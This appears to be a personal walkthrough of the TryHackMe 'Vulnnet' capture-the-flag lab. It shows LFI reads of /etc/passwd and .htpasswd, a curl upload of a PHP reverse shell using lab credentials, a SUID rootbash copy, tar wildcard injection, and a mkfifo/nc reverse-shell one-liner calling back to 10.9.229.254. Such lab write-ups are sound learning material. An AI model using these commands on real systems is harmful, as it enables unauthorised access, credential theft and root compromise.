 # 38. Vulnnet 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**
#other/GAtactics 
#privilegeEscalation/SUID 
curl


## Gaining Access 😉
- from source code, two javascript found which is available at /js directory
- got two links from those
- got one more link `http://vulnnet.thm/index.php?referer=`, this can be used to read /etc/passwd using curl [[#Important commands 🔥]] 1
- Since we are dealing with an Apache web server, we have to find the `.htpasswd` of the `broadcast.vulnnet.thm` web server. By default, you can view web configurations in the `/etc/apache2/sites-enabled/000-default.conf`. Run the following command to read this file:
- by reading `/etc/apache2/.htpasswd` , I got username and hashed password
- logged in to subdomain with this credeantials
- used curl command to upload phprevshell [[#Important commands 🔥]] 2
- got a revshell


## Maintaining Access 🥷
- found crontab which backing up users home. enumerated target dir and got ssh which is only readable. copied to /var/www/html/files and downloaded from browser, connected with ssh
- on crontab, executing by root, they used tar with absolute path
- copied rootbash to /tmp by abusing path variable
- tar wildcard privilege escalation


## Important commands 🔥
1. curl passwd
	```
	curl http://vulnnet.thm/index.php?referer=/etc/passwd
	```
2. upload with curl
	```php
	curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" [http://broadcast.vulnnet.thm/actions/photo_uploader.php](http://broadcast.vulnnet.thm/actions/photo_uploader.php) -u developers:<REDACTED>
	
	this
	curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:997  
	2761drmfsls
	```
3. copying rootbash to /tmp with suid permission
	```
	cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash
	```
4. tar wildcard
	```bash
	echo > '--checkpoint=1'
	echo > '--checkpoint-action=exec=sh shell.sh'
	```
5. inside shell.sh
	```
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.229.254 4444 >/tmp/f
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- add in etc/hosts
- if you've found subdomains, add subdomains also `/etc/hosts`
- for lfi, check source code also
- search for exploit


--------------------------------
**By Nibras Muhammed** 🤓🖥️